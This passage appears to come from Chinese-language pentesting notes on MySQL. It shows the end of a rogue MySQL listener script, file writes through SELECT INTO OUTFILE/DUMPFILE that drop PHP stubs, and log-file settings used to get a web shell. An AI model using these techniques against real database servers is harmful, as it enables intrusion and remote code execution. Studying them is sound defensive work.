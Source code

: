 ```python
            tmp = http_request_handler(pair)


z = mysql_listener()
daemonize()
asyncore.loop()
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204231543156.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202204231544750.png)

### 写文件

`select "payload" into outfile/dumpfile 'filename'`路径必须是绝对路径

```
mysql root@localhost:mysql> select "<?php ?>" into outfile '/tmp/a.php';
Query OK, 1 row affected
Time: 0.001s
mysql root@localhost:mysql> select load_file("/tmp/a.php")
+-------------------------+
| load_file("/tmp/a.php") |
+-------------------------+
| <?php ?>                |
|                         |
+-------------------------+
1 row in set
Time: 0.008s
mysql root@localhost:mysql> select "<?php ?>" into dumpfile '/tmp/b.php';
Query OK, 1 row affected
Time: 0.001s
mysql root@localhost:mysql> select load_file("/tmp/b.php")
+-------------------------+
| load_file("/tmp/b.php") |
+-------------------------+
| <?php ?>                |
+-------------------------+
1 row in set
Time: 0.007s
```

可以通过日志文件进行getshell

[slow_query_log_file](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_slow_query_log_file)

[general_log_file](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_general_log_file)

```
mysql root@localhost:mysql> show variables like "%slow_query_log%";
+---------------------+--------------------------------------+
| Variable_name       | Value                                |
+---------------------+--------------------------------------+
| slow_query_log      | OFF                                  |
| slow_query_log_file | /var/lib/mysql/04a8b4d57324-slow.log |
+---------------------+--------------------------------------+
2 rows in set
Time: 0.010s
mysql root@localhost:mysql> show variables like "%general_log%";
+------------------+---------------------------------+
| Variable_name    | Value                           |
+------------------+---------------------------------+
| general_log      | OFF                             |
| general_log_file | /var/lib/mysql/04a8b4d57324.log |
```